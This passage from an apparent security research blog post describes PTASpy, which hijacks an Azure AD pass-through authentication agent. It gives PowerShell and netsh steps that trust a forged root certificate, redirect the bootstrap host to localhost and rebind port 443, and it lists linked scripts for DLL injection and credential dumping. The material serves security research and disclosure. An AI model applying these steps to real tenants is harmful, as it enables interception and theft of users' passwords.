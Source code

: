 The first two steps was easy to do with PowerShell:
{{< highlight powershell >}}
# Generate certificate
$sslCert = New-SelfSignedCertificate -Subject "CN=$($TenantId).pta.bootstrap.his.msappproxy.net" -DnsName "$($TenantId).pta.bootstrap.his.msappproxy.net" -HashAlgorithm 'SHA256' -Provider "Microsoft Strong Cryptographic Provider" -NotAfter (Get-Date).AddYears(10)

# Add certificate to trusted root certificate authorities
Write-Verbose "* Add the SSL certificate ($($sslCert.Thumbprint)) to Trusted Root Certificate Authorities"
$rootStore = Get-Item -Path "Cert:\LocalMachine\Root"
$rootStore.Open([System.Security.Cryptography.X509Certificates.OpenFlags]::ReadWrite)
$rootStore.Add($sslCert)
$rootStore.Close()

# Set the .hosts file
Write-Verbose "* Add bootstrap FQDN ($($TenantId).pta.bootstrap.his.msappproxy.net) to .hosts file to point to 127.0.0.1"
Add-Content -Path "$($env:windir)\System32\drivers\etc\hosts" -Value "`n# Bootstrap `n 127.0.0.1 `t $($TenantId).pta.bootstrap.his.msappproxy.net"
{{< /highlight>}}

The third one needed a bit digging around, but I ended up to the following solution to first delete existing binding and then adding a new one using the thumbprint of SSL certificate created above:
```
netsh.exe http delete sslcert ipport=0.0.0.0:443
netsh.exe http add sslcert ipport=0.0.0.0:443 certhash=<thumbprint> appid={00000000-0000-0000-0000-000000000000}
```

Now the PTA agent will get the existing bootstrap from the local server instead of Azure AD 🐱‍👤

## Putting it all together

I created the following scripts to configure and run **PTASpy**:

Script | Description
--- | ---
<a href="https://github.com/Gerenios/public/blob/master/PTASpy/Configure-PTASpy.ps1" target="_blank">Configure-PTASpy.ps1</a> | Downloads other scripts. <br>Downloads and installs PTA agent. <br> Downloads <a href="https://github.com/Gerenios/public/blob/master/PTASpy.cpp" target=_blank">PTASpy.dll</a> and <a href="https://github.com/Gerenios/public/blob/master/InjectDLL.cpp" target=_blank">InjectDLL.exe</a> <br> Configures PTA agent to use provided certificate.<br> Creates and trusts SSL certificate for http server. <br> Configures .hosts for providing boostrap from local http server.
<a href="https://github.com/Gerenios/public/blob/master/PTASpy/Start-HttpServer.ps1" target="_blank">Start-HttpServer.ps1</a> | Runs a local http server using the provided certificate and bootstrap.
<a href="https://github.com/Gerenios/public/blob/master/PTASpy/Install-PTASpy.ps1" target="_blank">Install-PTASpy.ps1</a> 	  | (Re)starts PTA agent service and injects PTASpy.dll to it.
<a href="https://github.com/Gerenios/public/blob/master/PTASpy/Dump-Credentials.ps1" target="_blank">Dump-Credentials.ps1</a> | Dumps harvested credentials every 5 seconds.
